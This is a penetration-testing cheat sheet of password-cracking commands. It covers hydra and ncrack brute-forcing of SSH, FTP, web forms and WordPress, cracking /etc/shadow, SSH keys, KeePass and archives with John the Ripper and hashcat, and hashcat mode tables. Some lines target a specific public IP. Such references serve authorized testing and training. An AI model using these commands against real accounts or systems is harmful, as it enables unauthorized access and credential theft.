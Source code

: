 # Password cracking
> Credits to the SCSP Community.

### Cracking SSH Password

```bash
hydra -L <username list> -P <password list> 10.10.10.10 ssh
ncrack -U <usernames list> -P <passwords list> ssh://10.10.10.10
```

### Cracking FTP Passwords

```bash
hydra -L <username list> -P <password list> 10.10.10.10 ftp
ncrack -U <usernames list> -P <passwords list> ftp://10.10.10.10
```

### Cracking Passwords when Service uses non-standard port

```bash
hydra -L <username list> -P <password list> -s <port> 10.10.10.10 ssh
ncrack -U <usernames list> -P <passwords list> 10.10.10.10:<port>
```

### Cracking Password Protected PDF files

```bash
pdfcrack -f <pdf file> -w <wordlist>
```

### Cracking Web-Application Password

* In Get Request

```bash
hydra -L <usernames list> -P <passwords list> <target ip> http-get <path to admin panel>
```

* In Post Request

```bash
hydra -L <usernames list> -P <passwords list> <target ip> http-form-post '<post request data, specify parameters with ^USER^ and ^PWD^>'
```

### Crack Wordpress Passwords

```bash
wpscan --url <target ip/wp-login> -U <usernames list> -P <path to wordlist>
```

### Brute force login form

```bash
hydra -L rockyou.txt -p idk -t 20 35.227.24.107 http-post-form "/login:username=^USER^&password=^PASS^:Invalid username"
hydra -l sandy -P rockyou.txt -t 64 35.227.24.107 http-post-form "/login:username=^USER^&password=^PASS^:Invalid password"
```

### Brute force zip file

```bash
fcrackzip -D -p <WORDLIST> -v <ZIP_FILE>
fcrackzip -v -u -D -p <WORDLIST> <ZIP_FILE>
```

```text
zip2john zipfile > ziphash.john
john ziphash.john --wordlist=wordlist.txt
```

### Crack /etc/shadow

```bash
unshadow passwd.txt shadow.txt > passwords.txt
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

### Identifying Hash Types

```bash
hashid <file containing hashes>
hashid -m <file containing hashes>      ### Shows hashcat mode
hashid -j <file containing hashes>      ### Shows john format
```

### Converting encrypted files into a format supported by John

```bash
unshadow etc_passwd_file etc_shadow_file | tee unshadowed_file

ssh2john.py encrypted_SSH_key_file | tee SSH_key.john

keepass2john kdb_file | tee keepass_hash.john

rar2john encrypted_rar_file | tee rar_file_hash.john

7z2john encrypted_7z_file | tee 7z_file_hash.john
```

### Cracking Hashes using John the Ripper

```bash
john --list=formats     ### outputs all supported formats
john <hash file> --wordlist=<path to wordlist>
john <hash file> --show (shows cracked hashes)
john <hash file> --wordlist=<path to wordlist> --format=<hash format>
john <hash file> --incremental      ### uses ASCII incremental mode
john <hash file> --incremental=digits       # uses digit incremental (mode: 0 to 99999999999999999999)
```

### Cracking Hashes using HashCat

```bash
hashcat -m <hash type mode> -a <attack mode> <hash file> <path to wordlist>
```

### HashCat Attack Modes \(-a\)

| mode | attack      |
|:---- |:----------- |
| 0    | Straight    |
| 1    | Combination |
| 3    | Brute-force |

### HashCat Hash Types \(-m\)

* Linux OS hashes

| type | hash             |
|:---- |:---------------- |
| 500  | MD5 \($1$\)      | 
| 3200 | Blowfish \($2$\) |
| 7400 | SHA256 \($5$\)   |
| 1800 | SHA512 \($6$\)   |

* Windows OS hashes

| type | hash |
|:---- |:---- |
| 1000 | NTLM |
| 3000 | LM   |

* MacOS hashes

| type | hash                  |
|:---- |:--------------------- |
| 122  | MacOS v10.4,10.5,10.6 |
| 1722 | MacOS v10.7           |
| 7100 | MacOS v10.8+          |

* Application hashes

| type  | hash     |
|:----- |:-------- |
| 900   | MD4      |
| 0     | MD5      |
| 100   | SHA1     |
| 1400  | SHA2-256 |
| 1700  | SHA2-512 |
| 17400 | SHA3-256 |
| 17600 | SHA3-512 |

* Network Protocol Hashes

| type  | hash                    |
|:----- |:----------------------- |
| 7500  | Kerberos 5              |
| 10200 | CRAM-MD5                |
| 11100 | PostgreSQL CRAM \(MD5\) |
| 11200 | MySQL CRAM \(SHA1\)     |
| 16500 | JSON Web Token          |

* Salted Hashes

| type | hash                     |
| :--- | :----------------------- |
| 10   | MD5 \(\$pass.\$salt\)    |
| 20   | MD5 \(\$salt.\$pass\)    |
| 110  | SHA1 \(\$pass.\$salt\)   |
| 1410 | SHA256 \(\$pass.\$salt\) |
| 1420 | SHA256 \(\$salt.\$pass\) |
| 1710 | SHA512 \(\$pass.\$salt\) |
| 1720 | SHA512 \(\$salt.\$pass\) |